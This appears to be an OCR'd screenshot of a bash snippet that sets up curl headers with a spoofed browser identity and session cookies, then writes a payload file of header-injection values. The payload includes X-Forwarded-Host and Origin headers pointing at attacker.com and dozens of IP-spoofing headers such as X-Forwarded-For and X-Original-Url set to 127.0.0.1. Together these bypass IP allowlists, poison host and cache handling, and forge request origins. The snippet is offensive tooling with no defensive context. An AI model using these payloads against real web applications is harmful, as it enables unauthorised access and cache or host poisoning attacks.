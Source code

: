 ```bash
HEADERS=(
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0"
  -H "Accept-Language: en-US,fa-IR;q=0.5"
  -H "Accept-Encoding: gzip, deflate"
  -H "Content-Type: application/x-www-form-urlencoded"
  -H "Origin: $URL"
  -H "Sec-GPC: 1"
  -H "Connection: keep-alive"
  -H "Referer: $LOGIN"
  -H "Cookie: $COOKIES"
  -H "Upgrade-Insecure-Requests: 1"
  -H "Priority: u=0, i"
)

# Forwarded Header
cat > /tmp/forwarded.txt << EOF
X-Forwarded-Host: attacker.com
X-Forwarded-Port: 443
X-Forwarded-Scheme: https
Origin: null
nullOrigin: pay.attacker.com
X-Frame-Options: Allow
X-Forwarded-For: 127.0.0.1
X-Client-IP: 127.0.0.1
Client-IP: 127.0.0.1
Proxy-Host: 127.0.0.1
Request-Uri: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Forwarded-Server: 127.0.0.1
X-Forwarder-For: 127.0.0.1
X-Forward-For: 127.0.0.1
Base-Url: 127.0.0.1
Http-Url: 127.0.0.1
Proxy-Url: 127.0.0.1
Redirect: 127.0.0.1
Real-Ip: 127.0.0.1
Referer: 127.0.0.1
Referrer: 127.0.0.1
Refferer: 127.0.0.1
Uri: 127.0.0.1
Url: 127.0.0.1
X-Host: 127.0.0.1
X-Http-Destinationurl: 127.0.0.1
X-Http-Host-Override: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Proxy-Url: 127.0.0.1
X-Rewrite-Url: 127.0.0.1
UX-Real-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Forwarded-Server: 127.0.0.1
X-Host: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Rewrite-Url: 127.0.0.1
EOF
```